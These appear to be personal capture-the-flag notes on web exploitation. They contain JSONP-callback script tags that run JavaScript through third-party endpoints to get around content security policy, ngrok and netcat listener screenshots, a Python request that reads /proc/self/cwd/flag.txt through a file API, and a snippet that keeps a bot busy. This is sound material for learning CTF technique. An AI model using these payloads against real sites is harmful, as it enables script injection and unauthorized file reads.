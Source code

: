 <h1>JSOPN callback links</h1>

```
<script src="https://m.addthis.com/live/red_lojson/100eng.json?callback=alert('SELECT sleep')"></script>
<script src="https://www.youtube.com/oembed?url=fake&format=json&callback=alert('SELECT sleep')"></script>
```

https://github.com/zigoo0/JSONBee/blob/master/jsonp.txt : Many other endpoints

<h1>NGROK</h1>

![WSL](WSL.png)

![Listen](nc listen.png)

![Termux](termux.png)

- Accessing files if read permission
  If have access to read files in a system via a script running in the directory where challenge in running, can use `/proc/self/cwd/flag.txt`. /proc/self/cwd/flag.txt refers to the file named “flag.txt” located in the   current working directory of the process that accesses it. 

The /proc directory is a special directory in Linux that provides an interface to kernel data structures.
It contains information about processes, system configuration, and other system-related details.

Self is symlink to current process, cwd meads current working diirectory.

So like: 

```
print(requests.request("GET", URL+"/api/file?filename=/proc/self/cwd/flag.txt", headers={'Cookie': f'session={session_cookie}'}).text)
```

- Making a bot run long:
await new Promise((resolve) => setTimeout(resolve, 9999999));
